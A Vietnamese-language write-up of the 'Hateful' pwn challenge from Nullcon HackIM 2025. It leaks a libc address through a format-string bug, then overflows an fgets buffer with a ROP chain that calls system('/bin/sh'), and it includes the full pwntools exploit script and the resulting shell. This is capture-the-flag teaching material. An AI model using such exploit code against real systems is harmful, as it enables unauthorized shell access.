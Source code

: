# Nullcon Goa HackIM 2025 CTF - HATEFUL

Đây là giải đầu tiên mà mình giải sau kì nghỉ Tết tại Việt Nam năm 2025, ăn Tết quá nhiều khiến cho mình quên đi những cái cơ bản trong pwn và nó dẫn đến những
sai lầm trong bài Hateful này (Dù đây là 1 chall khá dễ). Okay, cùng nhau phân tích checksec trước như mọi khi nào.

```
File:     /home/kali/CTF/nullcon/hateful/hateful_patched
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
RUNPATH:    b'.'
Stripped:   No
```

Một bài toán không có PIE và chỉ là Partial RELR với NX enabled khiến ta không thể đặt shellcode trực tiếp vào được. Cùng chạy thử chall xem nó làm gì nhé.

```
My Boss is EVIL!!! I hate my Boss!!! These are things you really want to say to your Boss don't you? well we can do that for you! send us the message you want to send your Boss and we will forward it to him :)

So? are you onboard? (yay/nay)
>> yay
We are pleased that you trust our service!
please provide your bosses email!
>> vnpd
email provided: vnpd
now please provide the message!
AAAAAAAAAAAAAAAAAAAAAAAAAA
Got it! we will send the message for him later!
Well now all you have to do is wait ;)
```

Hay đấy, một chương trình mô phỏng lại việc viết thư giấu tên à. Cũng chưa thể thấy được điều gì, nên ta thử decompile nó nào.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1[4]; // [rsp+Ch] [rbp-4h] BYREF

  init(argc, argv, envp);
  puts(
    "My Boss is EVIL!!! I hate my Boss!!! These are things you really want to say to your Boss don't you? well we can do "
    "that for you! send us the message you want to send your Boss and we will forward it to him :)\n");
  puts("So? are you onboard? (yay/nay)");
  printf(">> ");
  __isoc99_scanf("%3s%*c", s1);
  if ( !strcmp(s1, "yay") )
  {
    puts("We are pleased that you trust our service!");
    send_message();
    puts("Well now all you have to do is wait ;)");
  }
  else
  {
    puts("Sorry that our offer didn't amuse you :(\nhave a nice day!");
  }
  return 0;
}
```

Ban đầu khi mới nhìn vào chall thì mình nghĩ nó là Format string bug (mình nhìn vào %\*c), và đúng là thế thật. Trong bài này sẽ sử dụng FSB (Format String Bug) để khai thác
bước 1, từ đó triển khai thêm. Cùng xem tiếp hàm `send_message` nhé.

```
int send_message()
{
  char format[112]; // [rsp+0h] [rbp-460h] BYREF
  char s[1008]; // [rsp+70h] [rbp-3F0h] BYREF

  puts("please provide your bosses email!");
  printf(">> ");
  __isoc99_scanf("%99s%*c", format);
  printf("email provided: ");
  printf(format);
  putchar(10);
  puts("now please provide the message!");
  fgets(s, 4096, stdin);
  return puts("Got it! we will send the message for him later!");
}
```

Nhìn được rõ ràng 2 vấn đề ở đây: có Buffer overflow xảy ra tại dòng `fgets`, nhận tới `4096` bytes trong khi biến `s` chỉ có `1008` bytes. Ta có thể dựa vào đây để viết ROP chain. Tiếp đến
là chỗ `email provided`, khi ta nhập vào `format` thì sẽ được in ra lại `format`. Cool, ta có thể leak được địa chỉ libc và exe. Và đây cũng là vấn đề đầu tiên xảy ra, mình dùng `pwninit` để link libc nhưng không
sử dụng cái file đã link đó để debug, mà dùng file chưa link debug, làm mình loay hoay cả buổi T_T. Mọi người nhớ link file binary với libc trước khi làm bài này nhé. Sau đó ta tiến hành debug nào.

```
We are pleased that you trust our service!
please provide your bosses email!
>> %5$p
email provided: 0x7ffff7fb4a80
```

Ở vị trí thứ 5 trên stack thì ta thấy được 1 cái địa chỉ, dùng pwndbg để xác định thì thấy đây thuộc libc

```
pwndbg> vmmap 0x7ffff7fb4a80
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7fb0000     0x7ffff7fb4000 r--p     4000 1ce000 /home/kali/CTF/nullcon/hateful/libc.so.6
►   0x7ffff7fb4000     0x7ffff7fb6000 rw-p     2000 1d2000 /home/kali/CTF/nullcon/hateful/libc.so.6 +0xa80
    0x7ffff7fb6000     0x7ffff7fc5000 rw-p     f000      0 [anon_7ffff7fb6]
```

Giờ ta cần lấy vị trí đã leak được trừ cho offset để ra libc base, để tìm được offset thì mình sẽ lấy địa chỉ leak được - cho địa chỉ libc base mình mong muốn nhé.

```
    0x7ffff7de2000     0x7ffff7e08000 r--p    26000      0 /home/kali/CTF/nullcon/hateful/libc.so.6
    0x7ffff7e08000     0x7ffff7f5d000 r-xp   155000  26000 /home/kali/CTF/nullcon/hateful/libc.so.6
    0x7ffff7f5d000     0x7ffff7fb0000 r--p    53000 17b000 /home/kali/CTF/nullcon/hateful/libc.so.6
```

Mình sẽ chọn địa chỉ `0x7ffff7de2000`, ta sẽ có phép tính như công thức đã nói trên:

```
pwndbg> p/x 0x7ffff7fb4a80 - 0x7ffff7de2000
$1 = 0x1d2a80
```

Vậy ta đã tìm được địa chỉ libc base, từ đây ta có thể tìm thấy `system`, và ta sẽ truyền tham số `/bin/sh` cho `system` để thực hiện `system('/bin/sh')` nhé. Truyền tham số
thông qua thanh ghi `RDI`, thế nên ta sẽ phải cần gadget `pop rdi ; ret`. Và để tiện cho việc stack alignment, ta cần thêm cả địa chỉ RET của chương trình. Lets go

Ta có thể tìm thấy địa chỉ system bằng cách sau:

```
pwndbg> p system
$2 = {<text variable, no debug info>} 0x7ffff7e2e490 <system>
```

Để ý là, cũng tương tự cách cũ, bạn cần lấy libc base - cho địa chỉ system để ra offset. Sau đó ta sẽ có system như sau:

```
system = libc.address + 0x4c490
```

Tiếp đến là gadget `pop rdi ; ret`, mình sẽ dùng `ROPgadget` để tìm trong libc.so.6.

```
└─$ ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
0x000000000010e739 : add byte ptr [rbp + rcx*4 + 5], cl ; pop rdi ; ret 0xc
0x00000000000277e5 : pop rdi ; ret
```

```
pop_rdi = libc.address + 0x277e5
```

Còn về /bin/sh, mình dùng `search /bin/sh` trong pwngdb để tìm thấy địa chỉ nơi chứa chuỗi `/bin/sh`, sau đó lấy địa chỉ này - libc base tìm ra offset và yay.

```
binsh = libc.address + 0x196031
```

# EXPLOITATION

```
from pwn import *

p = remote('52.59.124.14', 5020)
e = ELF('./hateful_patched')
libc = ELF('./libc.so.6')

# Leak libc first, then ROP
p.sendlineafter(b'>> ', b'yay')
p.sendlineafter(b'>> ', b'%5$p')
p.recvuntil(b'email provided: ')
leaked = int(p.recvn(14), 16)
libc.address  = leaked - 0x1d2a80

system = libc.address + 0x4c490
binsh = libc.address + 0x196031
pop_rdi = libc.address + 0x277e5

# info("Pop rdi: %#x", pop_rdi)
info("Libc address: %#x", libc.address)
info("System address: %#x", system)
info("POp rdi: %#x", pop_rdi)
info("Binsh: %#x", binsh)
print(hex(leaked))
ret = 0x000000000040101a

payload = b'A' * 1016 + p64(ret) + p64(pop_rdi) + p64(binsh)  + p64(system)
p.sendlineafter(b'now please provide the message!', payload)

p.interactive()

```

```
/home/kali/CTF/nullcon/hateful/exp.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  binsh = next(libc.search('/bin/sh\x00'))
[*] Libc address: 0x7fc86f76f000
[*] System address: 0x7fc86f7bb490
[*] POp rdi: 0x7fc86f7967e5
[*] Binsh: 0x7fc86f905031
0x7fc86f941a80
[*] Switching to interactive mode

Got it! we will send the message for him later!
$ cat flag.txt
ENO{W3_4R3_50RRY_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}$
```
